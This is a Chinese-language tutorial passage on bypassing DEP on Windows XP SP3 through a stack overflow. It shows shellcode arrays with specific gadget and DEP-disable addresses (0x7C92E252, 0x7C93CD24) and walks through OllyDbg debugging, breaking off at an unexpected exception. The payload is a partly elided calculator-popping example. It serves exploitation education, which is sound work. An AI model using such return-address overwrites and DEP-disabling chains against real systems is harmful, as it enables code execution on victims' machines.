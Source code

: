 对实验思路和代码简要解释如下。 
1. 为了更直观地反映绕过DEP 的过程，我们在本次实验中不启用GS 和SafeSEH。
2. 函数test 存在一个典型的溢出，通过向str 复制超长字符串造成str 溢出，进而覆盖函数返回地址。
3. 将函数的返回地址覆盖为类似MOV AL,1 retn 的指令，在将AL置1 后转入0x7C93CD24关闭DEP。
4. DEP 关闭后shellcode 就可以正常执行了。

# 构造shellcode
通过前面的分析，我们需要先找到类似MOV AL,1 RETN 的指令，即可以将AL 置1，又可以通过retn 收回程序控制权。

OllyFindAddr 插件的Disable DEP→Disable DEP <=XP SP3 搜索结果的Step2 部分就是符合要求的指令。搜索结果如图：

![](http://ww4.sinaimg.cn/large/005CA6ZCjw1ez61j4s6a1j30gd033dhc.jpg)

为了避免执行strcpy 时shellcode 被截断，我们需要选择一个不包含0x00 的地址，本次实验中我们使用0x7C92E252 覆盖函数的返回地址。

关于覆盖掉函数返回地址所需字符串长度的计算我们不再讨论，在本次实验中我们需要184个字节可以覆盖掉函数返回地址，所以我们在181~184 字节处放上0x7C92E252，shellcode 内容如下所示。
```
charshellcode[]=
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"……"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x52\xE2\x92\x7C"//MOV EAX,1 RETN 地址
;
```
<font color="red">Tips:</font> 省略号前后的内容为弹出计算器二进制代码，上面的cpp文件中有写出，后面就不具体写出了

然后编译程序，用OllyDbg 加载调试程序。在0x7C92E257，即MOV EAX,1 后边的RETN指令处暂停程序。观察堆栈可以看到此时ESP 指向test 函数返回地址的下方，而这个ESP 指向的内存空间存放的值将是RETN 指令要跳到的地址，如图：

![](http://ww2.sinaimg.cn/large/005CA6ZCgw1ez620ebxdyj30ho0azdk5.jpg)

所以我们需要在这个位置放上0x7C93CD24 （若此处不理解，可参考第一张图，LdrpCheckNXCompatibility 关闭DEP 的具体流程）以便让程序转入关闭DEP 流程，我们为shellcode 添加4 个字节，并放置0x7C93CD24，如下所示。
```
charshellcode[]=
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"……"
"\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\x52\xE2\x92\x7C"//MOV EAX,1 RETN 地址
"\x24\xCD\x93\x7C"//关闭DEP 代码的起始位置
;
```

重新编译程序后，用OllyDbg 重新加载程序，在0x7C93CD6F，即关闭DEP 后的RETN 4处下断点，然后让程序直接运行。但程序并没有像我们想象的那样在0x7C93CD6F 处中断，而是出现了异常。如图：

![](http://ww2.sinaimg.cn/large/005CA6ZCgw1ez62bo0l8bj30hs0az78n.jpg)
